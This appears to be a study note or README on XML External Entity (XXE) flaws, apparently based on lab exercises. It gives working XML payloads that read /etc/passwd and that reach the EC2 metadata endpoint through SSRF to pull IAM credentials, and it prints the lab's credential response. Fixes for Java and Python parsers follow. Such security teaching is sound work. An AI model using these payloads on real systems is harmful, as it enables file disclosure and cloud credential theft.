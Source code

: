 ##  **XXE (XML External Entity) vulnerability**
XXE (XML External Entity) vulnerability is a security flaw that occurs when an application processes XML input containing references to external entities. If not properly handled, this can lead to **data exposure, file retrieval, SSRF (Server-Side Request Forgery), and even remote code execution** in some cases.  

---

##  **How XXE Works**
1. **XML Processing**: The application parses user-supplied XML.
2. **External Entity Declaration**: If the XML parser is configured to allow external entities (`DOCTYPE` and `SYSTEM`), attackers can inject references to local or remote files.
3. **Data Exfiltration**: The attacker retrieves sensitive files (e.g., `/etc/passwd`) or triggers SSRF by forcing the server to make requests to internal services.

---

##  **Example of a Vulnerable XML**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>  
<root>  
    <data>&xxe;</data>  
</root>
```
 If an application processes this XML, it will replace `&xxe;` with the contents of `/etc/passwd`, exposing sensitive system information.

## **case1: Exploiting XXE using external entities to retrieve files**
```Payload

<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE stockCheck [ <!ENTITY procuctid SYSTEM "file:///etc/passwd"> ]>
    <stockCheck>
        <productId>&procuctid;</productId>
        <storeId>1</storeId>
    </stockCheck>
```    
## **case2: Exploiting XXE to perform SSRF attacks**
```secnerio: The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.
  motive: obtains the server's IAM secret access key from the EC2 metadata endpoint.

payloads

<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE stockCheck [ <!ENTITY procuctid SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
    <stockCheck>
        <productId>&procuctid;</productId>
        <storeId>1</storeId>
</stockCheck>
```
```Response:
            HTTP/2 400 Bad Request

            Content-Type: application/json; charset=utf-8

            X-Frame-Options: SAMEORIGIN

            Content-Length: 552

            "Invalid product ID: {

            "Code" : "Success",

            "LastUpdated" : "2025-03-11T08:19:31.312893341Z",

            "Type" : "AWS-HMAC",

            "AccessKeyId" : "w4CprEoDqP8HcOoLxq1l",

            "SecretAccessKey" : "iGY2bXKWVPmXrG1tllcM4B4pZCq5XivMtFxpbnhm",

            "Token" :                   "uqqU5kZR1JlvTBF85Eyn2aJDv6zEVFdntShz9zMpqtazw5AQrIkrNisng0DLy0GomI0uqbATyQwBUNw6Ey4YubP4CJnqQAoqO1Qd0lMkkVQPTgtREDUuQiNVAf0qzMUKRsXS7G9pdI6PBfm1g8V0wCNYSKW2YdkWSZaYsOqc4CmXWT4cE0znDrONJ2cN6NpPJCEAFmwO55NDqNnpuMRFovx8DUVs4QdCFDNdW4Vw0JVAQdtU5jsirgxMS4hK1Qkd",

  "Expiration" : "2031-03-10T08:19:31.312893341Z"

            }"
```
---

## 🛠 **Exploiting XXE**
- **File Disclosure**: Load system files using `file:///path/to/file`.
- **SSRF (Server-Side Request Forgery)**: Force the server to request internal/external resources (`http://internal-service/`).
- **Denial of Service (Billion Laughs Attack)**: Overload memory by nesting entities.
- **RCE (in rare cases)**: If the application allows interaction with system commands via an entity, remote code execution might be possible.

---

##  **How to Prevent XXE**
 **Disable DTD Processing** (External Entities):  
- In Java (DOM Parser):
  ```java
  DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
  dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
  ```
- In Python (`lxml` parser):
  ```python
  from lxml import etree
  parser = etree.XMLParser(resolve_entities=False)
  ```

**Use Safe Parsers**: Choose modern, secure XML libraries that disable external entity resolution by default.  
**Input Validation**: Avoid accepting XML input unless necessary.  
**Use JSON Instead of XML**: JSON does not support external entities, reducing the risk of XXE.

## **Refrence** 
   
   https://rohitcoder.medium.com/comprehensive-guide-detecting-fixing-and-defending-against-xxe-attacks-in-python-and-java-e78691b4b918
   
   https://www.w3schools.com/xml/xml_dtd_intro.asp
   
---
